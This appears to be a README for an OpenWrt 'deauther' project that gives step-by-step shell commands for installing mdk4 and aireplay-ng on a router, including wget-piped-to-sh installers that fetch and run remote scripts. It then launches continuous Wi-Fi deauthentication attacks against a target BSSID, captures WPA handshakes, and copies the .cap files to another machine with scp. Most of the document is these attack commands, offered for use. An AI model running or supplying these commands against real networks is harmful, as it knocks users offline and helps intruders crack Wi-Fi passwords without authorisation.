# openwrt deauther based on airplay-ng 
- Functions similar on kali
- Can also capture WPA Handshakes

## Root access 
```sh
ssh root@192.168.1.1
```
```sh
telnet 192.168.1.1
```
# Mipsel_24kc only 
> Any Openwrt running in this processors is supported by [mdk4](https://downloads.openwrt.org/releases/23.05.5/targets/ramips/)
 - mt7620
 - mt7621
 - mt76x8
 - rt288x
 - rt305x
 - rt3883
```sh
opkg update && wget -O mdk4.ipk https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/mdk4_4.2-5_mipsel_24kc.ipk && opkg install mdk4.ipk
```

# Auto install 
```sh
opkg update && wget -qO- https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/install.sh | sh
````

# Using aireplay-ng 
```sh
sh mon0.sh && airodump-ng mon0
```
> ctrl + c
```sh
aireplay-ng --deauth 0 -a (Mac BSSID)
```
# Monitor Mode 
```sh
wget -qO- https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/mon0.sh | sh
```
# Run
```sh
sh mon0.sh
```
# Using mdk4
```sh
sh mon.sh && mdk4 mon0 d
```
## Manual
> More info
 - aireplay-ng --help
 - airodump-ng --help
 - aircrack-ng --help

`iw phy phy0 interface add mon0 type monitor`

`ip link set mon0 up`

`airodump-ng mon0`

`aireplay-ng mon0 --deauth 0 -a 32:AA:E4:18:90:45 --ignore-negative-one`

- -a | bssid -a (32:AA:E4:18:90:45)

## Export handshake or files from openwrt to local storage
> [!Tip]
> install SFTP server in both system in order that SCP to work
> Openwrt: opkg install openssh-sftp-server
> Linux/Termux: apt install openssh-sftp-server

- Termux Terminal 
```sh
scp root@192.168.1.1:*.cap storage/downloads
```
- Kali terminal 
```sh
scp root@192.168.1.1:*.cap /home/*/Downloads
```

> [Hint!]
 - *.cap - export any name with .cap file format
